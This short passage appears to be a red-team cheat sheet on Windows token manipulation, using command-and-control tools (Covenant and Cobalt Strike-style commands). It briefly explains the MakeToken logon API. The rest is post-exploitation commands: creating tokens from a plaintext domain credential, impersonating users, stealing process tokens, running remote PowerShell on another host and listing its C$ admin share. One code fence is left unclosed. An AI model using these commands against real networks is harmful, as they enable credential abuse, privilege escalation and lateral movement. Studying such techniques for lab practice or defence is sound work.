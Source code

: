 ### Make Token
MakeToken Used Window API LOGON32_LOGON_NEW_CREDENTIALS.
This API creates a Logon Session from the specified credentials, copies existing Token, associates the new Logon Session with the new Access Token
```
make_token resilience\n.John F78rrari
MakeToken n.John resilience.local F78rrari #Covenant
PowerShell Invoke-Command -ComputerName n.John -ScriptBlock {ipconfig}
```
### Impersonate User
```
ImpersonateUser resilience\n.John
ls \\n.John\c$

```
impersonateprocess 7775
steal_token 7777
```
